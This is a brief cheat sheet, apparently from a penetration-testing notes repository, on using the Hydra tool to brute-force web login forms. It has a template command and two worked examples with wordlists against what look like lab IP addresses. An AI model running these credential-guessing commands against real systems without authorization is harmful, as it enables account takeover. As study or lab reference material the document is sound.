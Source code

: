 # Hydra

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket charactors themselves [ ] require removal. See examples.
*********************************************************************************

## Reliably bruteforce webpage logins with this command:
```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] http-post-form "/[LOGIN-PAGE-PATH]:[REQUEST-PAYLOAD]:[LOGIN-FAIL-TEXT]"
```
Example:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.86.128 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```
Another Example:
```
hydra -l Kyser -P wordlist.txt 10.10.174.36 -V http-form-post ‘/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.’
```
